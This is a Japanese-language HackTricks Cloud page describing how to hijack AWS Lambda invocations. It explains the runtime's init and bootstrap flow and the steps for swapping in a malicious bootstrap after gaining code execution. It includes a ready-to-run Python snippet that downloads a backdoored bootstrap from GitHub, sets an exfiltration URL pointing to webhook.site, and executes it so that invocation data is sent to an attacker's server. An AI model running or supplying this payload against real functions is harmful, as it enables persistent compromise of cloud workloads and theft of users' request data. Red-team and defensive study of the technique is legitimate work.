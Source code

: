 # AWS - Lambdaリクエストの盗み出し

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見る
- 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する
- **ハッキングトリックを共有するために、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する

</details>

## Lambdaフロー

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**は、コンテナ外のプロセスで、**init**プロセスに**呼び出し**を送信します。
2. initプロセスは、いくつかの興味深いエンドポイントを公開するポート**9001**でリスンします：
   - **`/2018-06-01/runtime/invocation/next`** – 次の呼び出しイベントを取得します
   - **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 呼び出しのハンドラ応答を返します
   - **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 実行エラーを返します
3. **bootstrap.py**は、initプロセスから呼び出しを取得するループを持ち、ユーザーのコードを処理するためにそれらを呼び出します（**`/next`**）。
4. 最後に、**bootstrap.py**はinitに**応答**を送信します。

ユーザーコードはモジュールとして読み込まれるため、ユーザーコードによって実行されるコード実行は実際にはこのプロセスで行われています。

## Lambdaリクエストの盗み出し

この攻撃の目的は、ユーザーコードが脆弱なリクエストを処理する**`bootstrap.py`**プロセス内で悪意のある**`bootstrap.py`**プロセスを実行させることです。これにより、**悪意のあるbootstrap**プロセスがリクエストを処理するためにinitプロセスと**通信**を開始し、**正規**のbootstrapが**罠**にかかっている間、initプロセスにリクエストを要求しません。

これは、ユーザーコードが正規の**`bootstrap.py`**プロセスによって実行されているため、簡単に達成できます。

* **現在の呼び出しの偽の結果をinitプロセスに送信**して、initがbootstrapプロセスがさらに呼び出しを待っていると思うようにします。
* リクエストを**`/${invoke-id}/response`**に送信する必要があります。
* invoke-idは、正規の**`bootstrap.py`**プロセスのスタックから[**inspect**](https://docs.python.org/3/library/inspect.html) pythonモジュールを使用して取得するか（[こちらで提案されている](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)）、または単に再度**`/2018-06-01/runtime/invocation/next`**にリクエストして取得できます（[こちらで提案されている](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)）。
* 次の呼び出しを処理する悪意のある**`boostrap.py`**を実行します。
* ステルス性を確保するために、Lambda呼び出しのパラメータを攻撃者が制御するC2に送信し、その後通常通りリクエストを処理できます。
* この攻撃では、現在のLambda呼び出しから**`bootstrap.py`**の元のコードを取得し、[**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)から悪意のあるコードを追加して実行するだけで十分です。

### 攻撃手順

1. **RCE**の脆弱性を見つける。
2. **悪意のある** **bootstrap**を生成する（例：[https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py)）
3. **悪意のある** **bootstrap**を実行する。

これらのアクションを簡単に実行できます。
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
詳細は[https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)を参照してください。

## 参考文献

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>こちら</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手してください
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つけてください
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するために、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
